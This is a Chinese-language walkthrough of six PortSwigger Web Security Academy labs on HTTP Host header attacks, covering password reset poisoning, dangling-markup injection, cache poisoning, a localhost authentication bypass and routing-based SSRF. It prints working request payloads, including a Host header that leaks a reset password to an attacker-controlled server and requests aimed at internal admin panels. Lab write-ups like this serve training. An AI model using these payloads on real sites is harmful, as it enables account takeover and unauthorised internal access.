



# Http Host header attacks

[toc]

## 1. Basic password reset poisoning



可以修改Host来修改域名的话，我们就可以将域名定到自己的exploit上面，然后受害者点击链接我们就可以收到`temp-forgot-password-token`的参数值了。

获取到carlos的参数值：`temp-forgot-password-token=tJRC5ielhDXdTlbTof4JDcKw8Bg99VO4`。

然后我们去重置密码。

成功登录。

## 2. Password reset poisoning via dangling markup

这个更改密码，是重置密码之后，系统自己给你一个密码，然后让你登陆。

更改Host会导致后端服务器出错。

但是在原来的Host后面自己添加port，或者非数字的port。而且Host的所有部分会变成Click那里的url。

尝试用单引号来穿透`a`标签，并将后面带密码的部分都给包含进去。

```
Host: acc51f7e1eaa1c6f80644ffb003b007b.web-security-academy.net:aa'><a href="https://ac9b1fab1e571c7080b44f9901c300e1.web-security-academy.net/aaa
```

成功穿透。

将穿透a标签的报文发出去，等待carlos上钩。查看log。

成功得到密码`FpFO7HrtTr`。

## 3. Web cache poisoning via ambiguous requests



直接将第二个Host改成exploit的url，然后让缓存命中应该就可以了。



可以了。

## 4. Host header authentication bypass

访问`/admin`一直说要本地用户才能访问。

* 将host头改成127.0.0.1不行
* 改成localhost可以了。

进去按照路径删除就好了。

## 5. Routing-based SSRF

>  access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

将Host改成burp collaborator的地址，发现返回了burp collaborator的内容，并且 collaborator上面也有访问记录。说实话，我都以为是直接请求的collaborator，还好Repeater里面的target并没有变。

因为`192.168.0.0/24`前24位是不变的，也就是只能从`192.168.0.0`到`192.168.0.255`，所以进行爆破。（爆破的时候会提示Host与Target不匹配，忽略继续即可）

爆破出来之后`192.168.0.14`的状态码是302。

证明这里是可以进去的。然后直接访问admin。

```http
GET /admin HTTP/1.1
Host: 192.168.0.14
```

然后进去删除就好了。（如果不想自己构造，那就用浏览器改包，每一个包应该都需要改Host）

## 6. SSRF via flawed request parsing

> access the internal admin panel located in the `192.168.0.0/24` range, then delete Carlos.

这道题直接修改Host不行了。

尝试添加其他的头，也不行。

然后就麻了。看了一下官方的解析，发现还有下面这种神奇做法。

```http
GET https://your-lab-id.web-security-academy.net/ HTTP/1.1
```

直接Get一个绝对的URL地址。这样验证的就是绝对的URL地址，而不是Host头。

下面这种可以访问到collaborator。

```http
GET https://accb1f101ea7c4848170346a008700b4.web-security-academy.net/ HTTP/1.1
Host: pkd9k3hvqe067wzhm7udz1rei5oycn.burpcollaborator.net
```

那接下来就是爆破端口，然后去删除账户了。

爆破出来是`192.168.0.6`。然后进入`/admin`，删除账户就好了。

```http
GET https://accb1f101ea7c4848170346a008700b4.web-security-academy.net/admin HTTP/1.1
Host: 192.168.0.6
```

删除账户还是用浏览器比较方便。

